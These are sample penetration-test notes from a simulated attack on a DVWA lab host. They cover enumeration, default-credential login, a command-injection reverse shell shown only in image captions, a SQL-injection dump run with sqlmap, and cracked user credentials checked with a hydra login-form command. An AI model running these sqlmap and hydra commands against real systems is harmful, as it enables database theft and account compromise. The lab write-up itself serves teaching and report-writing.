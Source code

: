 # Introduction

This document contains some sample notes from a simulated test of a DVWA instance.  Follow the [Sample instructions](Sample%20instructions.md) for a sample workflow of how to slice these notes up into the way you'd like them to appear in the report.

# Target - `dvwa.pwn.me` 172.16.0.9/24

Scope of test is limited to the single subdomain/virtual host `dvwa.pwn.me` on host `172.16.0.9/24`. 

## Enumeration

![dvwa-nmap-scan](../img/dvwa-nmap-scan.png)

![](../img/redirect-to-login-page.png)
Accessing `http://dvwa.pwn.me` takes us via redirect to `/login.php`.

![](../img/login-with-default-creds.png)

We can login with `admin:password`.

![](../img/https-not-supported.png)
HTTPS is configured on the host, but the target site is not accessible through HTTPS.  

# Foothold - reverse shell
## Testing command injection
![](../img/command-injection.png)
![](../img/receiving-shell-as-default-apache-user.png)
# Database - SQL injection vulnerability
![](../img/database-sql-injection-vulnerability.png)

![](../img/captured-sqli-request-for-use-with-sqlmap.png)



## Database dump leads to other users
![](../img/database-dump-with-cracked-webapp-user-credentials.png)

```bash
sqlmap -r dvwa.req --dump --batch
```
- `-r`: use the specified request file
- `--dump`: dump everything reachable
- `--batch`: assume default answers for `sqlmap` prompts; i.e. fully automatic

Using `sqlmap`, we were able to dump the entire DVWA user table, including cracked password hashes, shown below.

```
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password
```

## Validating user creds by authenticating to webapp

![](../img/validating-user-credentials-with-hydra.png)
```bash
hydra -C creds dvwa.pwn.me  http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

Using `hydra`, we validated the credentials dumped from the DVWA users table.


# Flags

## `user`
![](../img/user-flag2.png)

As the `www-data` user, discovered flag at `/home/user/.flag2.txt`.
Readable only by `user`

![user-flag](../img/user-flag.png)